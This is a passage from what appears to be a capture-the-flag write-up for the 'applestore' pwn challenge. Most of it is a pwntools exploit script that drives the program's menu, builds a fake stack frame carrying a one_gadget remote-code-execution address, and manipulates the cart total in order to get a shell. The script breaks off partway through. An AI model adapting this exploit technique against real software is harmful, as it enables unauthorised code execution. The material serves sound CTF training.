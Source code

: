 Putting everything together, we are able to get a shell using the following exploit.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def list_devices():
    r.send("1")
    r.recvuntil(">")

def add(item):
    r.sendline("2")
    r.recvuntil(">")
    r.sendline(str(item))
    r.recvuntil(">")

def checkout():
    r.sendline("5")
    r.recvuntil(">")
    r.sendline("y")
    r.recvuntil(">")

def delete(index):
    r.sendline("3")
    r.recvuntil(">")
    r.sendline(str(index))
    r.recvuntil(">")

def list_cart(a="", b=""):
    r.send("4"+a)
    r.recvuntil(">")
    r.sendline("y"+b)
    return r.recvuntil(">")

def z(x):
    return x&0xffffffff

def exit(one_gadget_rce):
    fake_frame  = "AAAAA"
    fake_frame += p32(z(one_gadget_rce))
    fake_frame += "A"*11 
    r.send("6"+fake_frame) 

def exploit(r):
    e = ELF('./applestore')

    r.recvuntil(">")
    '''
    1: iPhone 6 - $199
    2: iPhone 6 Plus - $299
    3: iPad Air 2 - $499
    4: iPad Mini 3 - $399
    5: iPod Touch - $199
    '''
    # if total = $7174, insert iPhone 8
    # >>> 299*15+199*9+399+499
    # 7174
    
    ## SET TOTAL = $7174 ##